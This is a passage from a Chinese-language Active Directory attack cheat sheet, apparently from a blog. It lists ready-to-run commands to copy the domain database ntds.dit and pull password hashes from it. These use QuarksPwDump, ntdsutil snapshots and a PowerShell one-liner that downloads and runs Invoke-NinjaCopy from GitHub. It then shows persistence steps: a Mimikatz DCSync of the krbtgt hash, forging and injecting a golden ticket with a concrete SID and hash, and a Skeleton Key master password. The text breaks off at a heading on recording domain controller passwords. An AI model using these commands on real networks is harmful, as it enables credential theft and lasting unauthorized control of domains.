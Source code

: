 sc detele backupntds
```
导出HASH

```
QuarksPwDump.exe -dhd -nt ntds.dit -sf system.hiv -o hash.txt
```
ntdsutil导出

```
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\windows\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" quit quit
ntdsutil snapshot "delete {GUID}" quit quit
```
powershell 导出ntds.dit

```
powershell IEX (New-ObjectNet.WebClient).DownloadString( 'https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1');Invoke-NinjaCopy -Path "C:\windows\ntds\ntds.dit" -LocalDestination "C:\Users\Administrator\Desktop\ntds.dit"
```
powershell导出后需要修复一下

```
esentutl /p /o ntds.dit
```


2. 交互式

导出ntds.dit

windows2008之后可以使用ntdsutil

#### 0x04权限维持
1. golden ticket
golden ticket 四要素

```
user 用户名
domain 域完整名称
sid   获取方式:whoami /all  powerview 里面的  Convert-NameToSid ESRINEA\administrator   psgetsid  -accepteula ESRINEA\administrator (PStoos存在)   mimikatz SID::lookup name
krbgt ntml hash   mimikatz “@lsadump::dcsync /domain:域完整名称 /user:krbtgt"
```
保存golden ticket

```
mimikatz kerberos::golden /user:administrator /domain:ESRINEA.LOCAL /sid:S-1-5-21-2609584263-878513794-3710365111-500 /krbtgt:EDC094659D9C18F4E320C70838404D43 /ticket:ESRINEA.LOCAL.kirbi
```

使用golden ticket

```
mimikatz keberos::ptt ESRINEA.LOCAL.kirbi
```

![](http://ogmho3r7t.bkt.clouddn.com/2017-03-20-14817917650651.png)

2. mimikatz Skeleton Key SSP
Skeleton Key被安装在64位的域控服务器上，支持Windows Server2003—Windows Server2012 R2，能够让所有域用户使用同一个万能密码进行登录现有的所有域用户使用原密码仍能继续登录，重启后失效，使用mimikatz就可以安装。
3. 记录域控密码
```